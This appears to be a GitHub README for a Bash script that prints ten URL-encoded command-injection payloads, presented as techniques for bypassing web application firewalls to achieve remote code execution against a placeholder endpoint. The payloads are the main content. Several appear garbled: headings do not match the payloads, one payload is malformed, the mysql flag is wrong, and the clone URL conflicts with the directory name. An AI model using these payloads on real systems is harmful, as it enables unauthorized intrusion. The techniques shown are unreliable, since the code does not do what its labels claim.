 

# RCE Payloads for WAF Bypass

This repository contains a Bash script with example payloads designed to demonstrate various techniques for bypassing Web Application Firewalls (WAFs) in the context of Remote Code Execution (RCE) vulnerabilities. The provided payloads are for educational and research purposes only.

## Overview

Web Application Firewalls (WAFs) are commonly used to protect web applications from various types of attacks, including Remote Code Execution (RCE). However, attackers often attempt to bypass these protections using various techniques. This repository provides a Bash script with a collection of example payloads that might be employed to bypass WAFs.

## Script

The `rce_payloads.sh` script contains ten example payloads. Each payload demonstrates a different technique for attempting to exploit RCE vulnerabilities while trying to avoid detection by WAFs.

### Example Payloads

1. **Basic Command Injection with URL Encoding**
2. **Double URL Encoding**
3. **Base64 Encoding**
4. **Unix Time-Based Payload**
5. **Nested Encodings**
6. **Using Environment Variables**
7. **Bypassing WAF with Delimiters**
8. **Payload with SQL Injection**
9. **Using PHP Wrappers**
10. **Bypassing WAF with Newline Characters**

### Script Content

The script is designed to output various payloads that can be used in testing. Each payload is constructed to demonstrate different evasion techniques.

```bash
#!/bin/bash

# Example payloads for RCE with WAF bypass techniques

# 1. Basic Command Injection with URL Encoding
payload1="http://example.com/vulnerable?param=cmd%3D%28%27id%27%29"
echo "Payload 1: $payload1"

# 2. Double URL Encoding
payload2="http://example.com/vulnerable?param=cmd%253D%2528%2527id%2527%2529"
echo "Payload 2: $payload2"

# 3. Base64 Encoding
payload3="http://example.com/vulnerable?param=cmd%3D%28%27echo%20%24%28echo%20c3NoIGNoYW5nZQ%29%27%29"
echo "Payload 3: $payload3"

# 4. Unix Time-Based Payload
payload4="http://example.com/vulnerable?param=cmd%3D%28%27date%20%26%26%20id%27%29"
echo "Payload 4: $payload4"

# 5. Nested Encodings
payload5="http://example.com/vulnerable?param=cmd%253D%2528%2527echo%2520%2524%2528echo%2520c3NoIGNoYW5nZQ%2529%2527%2529"
echo "Payload 5: $payload5"

# 6. Using Environment Variables
payload6="http://example.com/vulnerable?param=cmd%3D%28%27%24%28env%29%27%29"
echo "Payload 6: $payload6"

# 7. Bypassing WAF with Delimiters
payload7="http://example.com/vulnerable?param=cmd%3D%28%27%24%28command%20%24%28echo%20%24%28echo%20id%29%29%29%27%29"
echo "Payload 7: $payload7"

# 8. Payload with SQL Injection
payload8="http://example.com/vulnerable?param=cmd%3D%28%27%24%28mysql%20-U%20root%20-e%20%27SELECT%20user()%27%29%27%29"
echo "Payload 8: $payload8"

# 9. Using PHP Wrappers
payload9="http://example.com/vulnerable?param=cmd%3D%28%27php%20%27%29%27"
echo "Payload 9: $payload9"

# 10. Bypassing WAF with Newline Characters
payload10="http://example.com/vulnerable?param=cmd%3D%28%27%24%28echo%20%22id%22%29%27%29"
echo "Payload 10: $payload10"

# End of Payloads
echo "Payloads listed above can be used for testing purposes. Ensure proper authorization before testing."
```

## Usage

1. **Clone the repository**:

   ```bash
   git clone [https://github.com/soheil-vanaee/rce-waf-bypass.git](https://github.com/soheil-vanaee/rce-payload-bypassing-WAF-.git)
   cd rce-waf-bypass
   ```

2. **Make the script executable**:

   ```bash
   chmod +x rce_payloads.sh
   ```

3. **Run the script**:

   ```bash
   ./rce_payloads.sh
   ```

   This will print out the payloads to the terminal.

## Important Notes

- **Authorization**: Ensure that you have explicit permission before testing any payloads on systems. Unauthorized testing is illegal and unethical.
- **Adjustments**: Payloads may need modification based on the specific WAF and application you are targeting.
- **Ethical Use**: Use these techniques responsibly and only in controlled, authorized environments.

